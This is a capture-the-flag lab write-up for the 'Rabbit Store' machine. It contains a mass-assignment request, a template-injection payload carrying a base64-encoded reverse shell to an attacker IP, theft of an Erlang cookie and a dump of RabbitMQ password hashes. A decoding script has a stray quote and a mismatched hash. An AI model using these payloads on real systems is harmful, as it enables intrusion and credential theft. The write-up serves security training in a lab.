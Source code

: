 # Rabbit store writeup

## quickly

```Nmap scan report
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://cloudsite.thm/
|_http-server-header: Apache/2.4.52 (Ubuntu)
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  7 07:08:29 2025 -- 1 IP address (1 host up) scanned in 160.33 seconds

Add cloudsite.thm to /etc/hosts

ffuf -u http://cloudsite.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cloudsite.thm" | grep 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cloudsite.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cloudsite.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

storage                 [Status: 200, Size: 9039, Words: 3183, Lines: 263, Duration: 34ms]


Add storage.cloudsite.thm to /etc/hosts

Create account and login

error but there is a jwt token in cookies
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InNpZEB0aG0uY29tIiwic3Vic2NyaXB0aW9uIjoiaW5hY3RpdmUiLCJpYXQiOjE3NDEzMjc5MzgsImV4cCI6MTc0MTMzMTUzOH0.hIh-xXFtZ5V3j9adLHau9NiZmwWECgJJMP28TN0kxac

jwt.io

{
  "email": "sid@thm.com",
  "subscription": "inactive",
....
}

create new account and use burpsuite to add "subscription": "active"

```
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/register.html
Content-Type: application/json
Content-Length: 42
Origin: http://storage.cloudsite.thm
DNT: 1
Connection: keep-alive

{"email":"sid2@thm.com","password":"test", "subscription":"active"
}

POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InNpZDJAdGhtLmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTMyODM3MywiZXhwIjoxNzQxMzMxOTczfQ.Q4y9qA0_SE622GXynYDhaWTa8BtI8L0ePkPZw_M6yZo
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 169

{
	"username": "{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMC4xNDYvMTA2NjYgMD4mMQ==|base64 -d|bash').read()}}"
}
```

nc -lnvp 10666

## reverse shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
stty raw -echo ; fg

azrael@forge:/var/lib/rabbitmq$ ls -a
.  ..  config  .erlang.cookie  erl_crash.dump  mnesia  nc  schema
azrael@forge:/var/lib/rabbitmq$ cat .erlang.cookie 
G1Ub8H9zkeliT37t

sudo rabbitmqctl --erlang-cookie 'G1Ub8H9zkeliT37t' --node rabbit@forge list_users
Listing users ...
user    tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256. []
root    [administrator]

sudo rabbitmqctl --erlang-cookie 'G1Ub8H9zkeliT37t' --node rabbit@forge export_definitions /tmp/definitions.json
Exporting definitions in JSON to a file at "/tmp/definitions.json" ...
```

```
cat /tmp/definitions.json 
{
    "bindings":[],"exchanges":[],"global_parameters":[{"name":"cluster_name","value":"rabbit@forge"}],"parameters":[],"permissions":[{"configure":".*","read":".*","user":"root","vhost":"/","write":".*"}],"policies":[],"queues":[{"arguments":{},"auto_delete":false,"durable":true,"name":"tasks","type":"classic","vhost":"/"}],"rabbit_version":"3.9.13","rabbitmq_version":"3.9.13","topic_permissions":[{"exchange":"","read":".*","user":"root","vhost":"/","write":".*"}],"users":[{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.","password_hash":"vyf4qvKLpShONYgEiNc6xT/5rLq+23A2RuuhEZ8N10kyN34K","tags":[]},{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"root","password_hash":"49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF","tags":["administrator"]}],"vhosts":[{"limits":[],"metadata":{"description":"Default virtual host","tags":[]},"name":"/"}]
}
``` 

root hash is 49e6hSldHRai9uxhSBHtGU+YBzWF

```
import hashlib
import binascii

user_hash = '49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF''
password_hash = binascii.a2b_base64(user_hash)
decoded_hash = password_hash.hex()
part1 = decoded_hash[:8]
part2 = decoded_hash[8:]

print(part2)

python3 decode_root.py
```

password is:
295d1....585
